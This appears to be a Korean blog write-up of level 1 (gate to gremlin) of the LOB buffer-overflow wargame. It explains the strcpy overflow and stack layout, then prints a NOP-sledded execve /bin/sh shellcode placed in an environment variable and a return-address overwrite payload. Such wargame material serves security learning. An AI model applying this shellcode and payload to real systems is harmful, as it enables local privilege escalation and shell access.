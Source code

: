 ```yaml
---
title:  "[LOB] level 1: gate >> gremlin "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-21 05:17:28

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 1

**gate / gate**

gremlin.c 파일에서 코드 확인  
![image](https://user-images.githubusercontent.com/69203345/146874240-478f8c57-92a0-4430-b2f1-3869015d274d.png)

buffer에 256바이트 크기 할당
if문에서 전달받은 인자가 2개 이상인지 확인  

>main함수의 매개변수  
int argc
메인함수에 전달되는 정보의 갯수를 의미한다.  
char* argv［］
메인함수에 전달되는 실질적인 정보로, 문자열의 배열을 의미한다. 첫번째 문자열은 프로그램의 실행경로로 항상 고정이 되어 있다.  
[참조](https://m.blog.naver.com/sharonichoya/220501242693)

그후 strcpy에서 취약점이 발생하는데 strcpy는 복사받는 대상의 크기에 상관없이 무조건 복사를 합니다. bof취약점이 생긴다는 거죠

이제 스택의 상황을 살펴보자면  

![image](https://user-images.githubusercontent.com/69203345/146874308-b6d294af-73d8-4df6-9590-205c9985a18a.png)

0x8048433 <main+3>: sub %esp,0x100  
스택크기로 0x100(256바이트)지정

0x804846e <main+62>: lea %eax,[%ebp-256]  
을 보면 buf가 [ebp-256]에 위치함

낮은주소

buf[256] [ebp-256]
sfp[4]  
ret[4]

높은주소

dummy없이 buffer-sfp-ret 일듯하다

환경변수설정, 41바이트 쉘코드 사용  
> export EGG=\`python -c 'print "\x90"*15+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`  
> echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); } ' > getenv.c  
> gcc getenv.c -o getenv

![image](https://user-images.githubusercontent.com/69203345/146874923-cb656a6f-02ac-415c-8ffb-2cc38536c174.png)

나온 주소를 사용해서 페이로드 작성  
>\`python -c 'print "A"*260+"\x9f\xfe\xff\xbf"'`

![image](https://user-images.githubusercontent.com/69203345/146875287-25b78235-b94d-4a25-85a6-89155c77a81e.png)

---
[쉘코드 기초](https://d4m0n.tistory.com/10)  
main함수의 매개변수
[참조](https://m.blog.naver.com/sharonichoya/220501242693)  
[기술들 참조](https://d4m0n.tistory.com/category/System%20Hacking/Techniques)